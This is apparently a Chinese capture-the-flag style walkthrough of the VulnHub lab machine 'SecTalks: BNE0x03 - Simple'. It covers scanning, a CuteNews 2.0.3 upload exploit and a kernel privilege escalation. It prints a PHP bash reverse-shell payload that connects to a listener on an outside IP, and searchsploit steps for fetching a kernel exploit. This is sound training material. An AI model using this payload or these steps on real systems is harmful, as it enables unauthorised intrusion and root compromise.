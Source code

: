 
**靶机地址**：[SecTalks: BNE0x03 - Simple ~ VulnHub](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141/)
**Download (Mirror)**: [https://download.vulnhub.com/sectalks/Simple.ova](https://download.vulnhub.com/sectalks/Simple.ova)

### 信息收集
先做主机发现

```BASH
arp-scan -l
```

![](imgs/f3341d3441ccc8b959226c59071c5a55_MD5.jpeg)

```BASH
nmap --min-rate 10000 -p- 172.16.31.10
```
![](imgs/a9075624362ea6e64cecc0b86e308fd4_MD5.jpeg)
发现只开放了一个80端口


### 漏洞利用

访问web

![](imgs/a2376bbb87856c509dbf9c098752239b_MD5.jpeg)

可以看到`CuteNews v.2.0.3`,这个应该是CuteNews框架的版本号,像这种是很容易爆洞的,因为版本很低，可以搜索相关历史漏洞


![](imgs/e02cc737e1e84c69ae5ea1a1e783b7b9_MD5.jpeg)

下载`37474.txt`到当前路径

```bash
 searchsploit  cutenews 2.0.3 -m 37474.txt
```

![](imgs/39c8bf4ffcfcbea8470f62a04d08e494_MD5.jpeg)


告诉了我们利用方法

![](imgs/77941761eb5781f842304f2e73a8f15c_MD5.jpeg)


先注册一个用户，然后登录

![](imgs/0a4f95c0173f0c8a4f2571b6f8fda9ec_MD5.jpeg)


![](imgs/a0bef133820ae5fd63c6a9af7cb73acb_MD5.jpeg)


来到`http://172.16.31.10/index.php?mod=main&opt=personal`这个路径

![](imgs/fbd02e581959e31a4fc5e070fb33ba7b_MD5.jpeg)




```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.104/5678 0>&1'"); ?>
```


我这里先上传一个正常的图片，然后修改数据包


![](imgs/29e81c84fec7c8afd7c4ad47cb3b8f0d_MD5.jpeg)


![](imgs/3b9574ff0a14567379396b07fa220a24_MD5.jpeg)


![](imgs/7884e3e359557d4a410c827057ade337_MD5.jpeg)

http://172.16.31.10/uploads/，可以看到上传成功了

![](imgs/ea954800fb50d0e5295d2d452f42df80_MD5.jpeg)



物理机开启监听

![](imgs/39c4b30e6e9ffe24e287ee125f5860fd_MD5.jpeg)



成功反弹

![](imgs/04994844047d0971fe4e3d0c40fb9f9a_MD5.jpeg)


![](imgs/8054c490e3692d2d0296ed5fc63de597_MD5.jpeg)

### 提权

进入靶机，发现是个低权限的用户，那么我们就要进行提权了，这里我尝试了一般的提权方法，比如SUID提权和sudo -l 命令以及查看进程都没有发现可以提权的点。

![](imgs/938f6db97285818477a037ac58596ba2_MD5.jpeg)

拿到shell是因为这个框架漏洞版本太低，那么我们进行提取操作的时候，是不是也可以利用这点呢，我直接uname -a 查看内核版本信息，好家伙还真是，这个内核版本确实低，可以被我们所利用

![](imgs/065f5b4a990e868dcb0266ea4a346b12_MD5.jpeg)

searchspoit搜索对应版本的提取漏洞

```bash
 searchsploit kernel 3.16.0-generic | grep "Privilege Escalation"
```

![](imgs/d04698640e0190b75474bb3e578780a0_MD5.jpeg)

内核提权就是这样的，有点靠运气的成分了，就得看我们检索的关键字是什么了，然后还得挨个去尝试！
尝试红队笔记大佬的方法
```bash
searchsploit Ubuntu 14.04 |grep "Privilege Escalation"
```
![](imgs/43d54cb2427b2b6cff3ab038c953f81b_MD5.jpeg)

下载exp
```bash
searchsploit -m 37088.c
```

然后开启web服务

```php
php -S 0:6868
```


靶机下载EXP

![](imgs/7cc5d6c55fd4cf66242d0270672581f8_MD5.jpeg)


![](imgs/038c11f8fec8c1db61808d27344b8c35_MD5.jpeg)